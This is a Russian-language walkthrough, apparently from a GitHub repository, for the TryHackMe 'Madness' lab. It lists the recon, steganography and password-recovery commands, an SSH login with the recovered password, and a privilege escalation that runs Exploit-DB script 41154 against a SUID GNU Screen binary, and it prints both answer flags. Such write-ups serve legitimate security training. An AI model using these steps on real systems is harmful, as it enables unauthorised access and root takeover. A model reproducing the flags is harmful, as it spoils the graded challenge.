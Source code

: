 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Madness](https://tryhackme.com/r/room/madness) 

Всего 1 заданиe:
## Задание 1
Обратите внимание, что для этого задания не требуется перебор паролей SSH.

Используйте свои навыки, чтобы получить доступ к учетной записи пользователя и root!
### Ответьте на вопросы ниже
пользователь.txt 
[secret.py](https://github.com/BEPb/tryhackme/blob/master/01.easy/Madness/secret.py)
```commandline
nmap -sC -sV <IP>
curl -s http://<IP>
wget http://<IP>/thm.jpg
xxd thm.jpg | head
printf '\xff\xd8\xff\xe0\x00\x10\x4a\x46\x49\x46\x00\x01' | dd conv=notrunc of=thm.jpg bs=1
curl -s http://<IP>/th1s_1s_h1dd3n/
curl -s http://<IP>/th1s_1s_h1dd3n/?secret=34
python secret.py
# y2RPJ4QaPF!B 
steghide info thm.jpg
steghide extract -sf thm.jpg
cat hidden.txt
# wbxre
echo -n "wbxre" | tr 'A-Za-z' 'N-ZA-Mn-za-m'
# joker
wget https://<IP>/5iW7kC8.jpg
steghide info 5iW7kC8.jpg
steghide extract -sf 5iW7kC8.jpg
cat password.txt
sshpass -p "*axA&GF8dP" ssh joker@<IP>
cat user.txt 
```
```commandline
THM{d5781e53b130efe2f94f9b0354a5e4ea}
```
корень.txt
```commandline
find / -user root -perm -u=s 2>/dev/null
ls -l /bin/screen*
# https://www.exploit-db.com/exploits/41154
sh 41154.sh 
cat /root/root.txt
```
```commandline
THM{5ecd98aa66a6abb670184d7547c8124a}
```


[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)
